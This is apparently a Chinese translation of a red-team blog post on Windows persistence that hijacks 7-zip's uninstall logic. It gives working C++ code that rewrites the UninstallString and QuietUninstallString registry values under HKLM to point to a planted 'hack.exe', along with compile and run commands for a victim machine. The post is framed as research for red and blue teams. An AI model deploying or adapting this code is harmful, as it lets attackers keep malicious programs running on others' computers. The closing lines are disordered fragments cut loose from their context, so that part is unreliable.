\newpage
\subsection{恶意软件开发：持久化（第 13 部分）——劫持应用程序的卸载逻辑（简单的 C++ 示例）}

### 卸载过程

{width="80%"}

当你在 Windows 系统上安装一个程序时，它们通常指向自己的卸载程序。

它们位于以下注册表项中：

把它们替换成可以运行任何其他程序的命令是没有任何问题的。

当用户执行卸载程序时，攻击者所选择的命令就会被执行。

同样，好消息是修改这些项需要权限，因为它们位于 HKLM 项之下。

### 实战示例

我们来看一个实战示例。

首先，选择一个目标应用程序。

我选择了 7-zip x64：

{width="80%"}

{width="80%"}

{width="80%"}

然后，为了确保正确，检查一下注册表项的值：

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

{width="80%"}

和往常一样，它就是 meow-meow「恶意软件」:)

{width="80%"}

然后，我创建一个实现持久化逻辑的程序（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // update registry key value
  // reg add 
  //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
  // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
  RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
  exe, strlen(exe));
  RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
  (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }

  return 0;

```

如你所见，逻辑很简单，我们只是更新注册表中的目标项值。

### 演示

编译恶意软件和持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在受害者的机器上运行——在我的例子中是 Windows 10 x64：

```powershell
.\pers.exe
```

{width="80%"}

最后，重启我的系统之后，尝试卸载 7-zip：

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

然后我用 Process Hacker 2 查看了 `hack.exe` 的属性：

{width="80%"}

如你所见，父进程是 `SystemSettings.exe`——也就是你每次打开 Windows 设置时看到的那个进程。

当我尝试用路径 `Z:\2022-10-04-malware-pers-13\hack.exe` 更新项值时，我得到了这样的错误：

{width="80%"}

也许你只能使用 `C:\` 盘内的路径。

实验结束后，进行清理：

```powershell
reg add 
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" 
/v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

{width="80%"}

### 结论

当然，也许这个技巧对于持久化来说并不那么酷，因为它需要权限以及受害者用户的参与。

还有一种利用安装和卸载程序实现持久化的技巧，我会在以后的一篇文章中写到它。

我目前仍在研究这种可能性，以供红队使用。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过劫持目标应用程序的卸载文件实现持久化。

以及

那么技巧在哪里呢？

另外，我还准备好了我的恶意应用程序。

我们来看看一切的实际运行。

在我们的例子中，它是「添加／删除程序」。

完美！=..=

不过有一个小注意事项。

但为什么不呢？
